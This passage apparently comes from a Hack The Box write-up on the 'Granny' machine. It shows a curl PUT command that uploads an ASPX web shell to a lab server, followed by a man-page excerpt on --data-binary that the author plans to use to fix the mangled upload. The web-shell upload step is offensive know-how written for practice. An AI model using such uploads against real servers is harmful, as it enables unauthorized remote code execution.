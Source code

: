 ```sh
┌─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $ curl -X PUT http://10.10.10.15/shell.txt -d @shell.aspx
┌─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $
```

right of the bat I notice when I view the txt file it has a lot of whitespace which is not a good sign.

![White whitespace](/assets/img/granny/shell_txt_fail.png)

Looking at the `man` page for `curl` I note there is another option that uploads data in the same exact format it was.

```sh
┌─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $ man curl
---------------------snip-------------------------------------
--data-binary <data>
             (HTTP) This posts data exactly as specified with no extra processing whatsoever.

             If you start the data with the letter @, the rest should be a filename. Data is posted in a similar manner as -d, --data does, except that newlines and carriage returns are preserved and conversions are never done.

             Like  -d, --data the default content-type sent to the server is application/x-www-form-urlencoded. If you want the data to be treated as arbitrary binary data by the server then set the content-type to octet-stream: -H "Content-Type:
             application/octet-stream".

             If this option is used several times, the ones following the first will append data as described in -d, --data.

             --data-binary can be used several times in a command line

             Example:
              curl --data-binary @filename https://example.com
```
I will try this out
